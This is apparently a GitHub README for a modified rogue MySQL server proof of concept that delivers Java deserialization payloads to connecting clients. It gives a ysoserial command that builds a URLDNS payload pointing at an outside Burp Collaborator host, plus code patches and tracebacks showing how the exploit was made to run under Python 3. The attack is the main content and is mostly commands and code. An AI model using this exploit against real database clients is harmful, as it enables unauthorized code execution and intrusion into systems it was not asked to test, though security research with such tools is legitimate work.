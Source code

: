 # rogue-mysql-server
Modified version of the 'rogue-mysql-server.py' script from https://landgrey.me/blog/11/. All credit to the original author.

## Usage:

```py
python3 rogue-mysql-server.py
```

## POC Generation w/ ysoserial

```
java -jar ysoserial.jar URLDNS 'http://blahblahblah.burpcollaborator.net' > /tmp/payload.ser
```

## Modifications

Quick reference of the changes that I needed to make in order to get this PoC working from the original blog post.

### File Location

Put the file in `tmp` because why not

```
deserialization_file = r'/tmp/payload.ser'
```

### Float Conversion

Due to this error:

```py
Traceback (most recent call last):
  File "rogue-mysql-server.py", line 102, in <module>
    run_mysql_server()
  File "rogue-mysql-server.py", line 63, in run_mysql_server
    _payload_hex = str(hex(len(deserialization_payload)/2)).replace('0x', '').zfill(4)
TypeError: 'float' object cannot be interpreted as an integer
```

Updated these lines to use `//` to do float division

```py
_payload_hex = str(hex(len(deserialization_payload)//2)).replace('0x', '').zfill(4)
```

```py
_data_hex = str(hex(len(deserialization_payload)//2 + 5)).
```

### String and Byte Concatenation

`deserialization_payload` is raw bytes and needs to be decoded into a `str` before we can concatenate. This is to fix this traceback.

```py
Traceback (most recent call last):
  File "rogue-mysql-server.py", line 102, in <module>
    run_mysql_server()
  File "rogue-mysql-server.py", line 67, in run_mysql_server
    _data += _data_length + '04' + '0131fc' + _payload_length + deserialization_payload
TypeError: can only concatenate str (not "bytes") to str
```

We change

```py
_data += _data_length + '04' + '0131fc' + _payload_length + deserialization_payload
```

to

```py
_data += _data_length + '04' + '0131fc' + _payload_length + deserialization_payload.decode()
```
